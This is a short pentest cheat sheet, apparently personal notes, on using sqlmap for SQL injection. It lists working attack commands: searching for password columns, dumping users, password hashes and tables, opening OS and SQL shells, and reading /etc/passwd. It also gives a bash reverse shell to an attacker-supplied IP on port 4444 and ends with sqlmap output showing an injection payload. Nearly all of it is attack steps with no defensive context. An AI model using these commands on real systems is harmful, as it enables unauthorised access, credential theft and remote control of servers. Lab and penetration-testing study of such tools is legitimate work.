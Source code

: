 ***
### Look for a specific value with `sqlmap`
		sqlmap.py -u "http://192.168.1.1/mypath/mypoorlywrittenapp.asp?SessionID=" --search -C 'password'

### Get a shell from sqlmap  
	http://10.10.10.46/dashboard.php?search=a  

	sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=73jv7pdmjsv7dsspoqtnlv66ls"
	sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=73jv7pdmjsv7dsspoqtnlv66ls" --os-shell

	bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'
	SHELL=/bin/bash script -q /dev/null

	sqlmap -r search.req --dbms mysql --technique=U --dump --batch

	\\ AND/OR

	sqlmap -r search.req --dbms mysql --technique=U --users

	\\ AND/OR

	sqlmap -r search.req --dbms mysql --technique=U --passwords

	sqlmap -u http://vuln.website.com/index.php?vulmparam=test --sql-shell

### Read a file from sqlmap

	sqlmap -r req.raw --batch --file-read=/etc/passwd --level 3 --threads 10
	
		     ___
	       __H__
	 ___ ___[.]_____ ___ ___  {1.5#stable}
	|_ -| . [)]     | .'| . |
	|___|_  [.]_|_|_|__,|  _|
	      |_|V...       |_|   http://sqlmap.org

	[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

	[*] starting @ 16:17:09 /2021-01-30/

	[16:17:09] [INFO] parsing HTTP request from 'req.raw'
	[16:17:09] [INFO] resuming back-end DBMS 'mysql' 
	[16:17:09] [INFO] testing connection to the target URL
	sqlmap resumed the following injection point(s) from stored session:
	---
	Parameter: id (GET)
	    Type: boolean-based blind
	    Title: AND boolean-based blind - WHERE or HAVING clause
	    Payload: id=3 AND 1576=1576
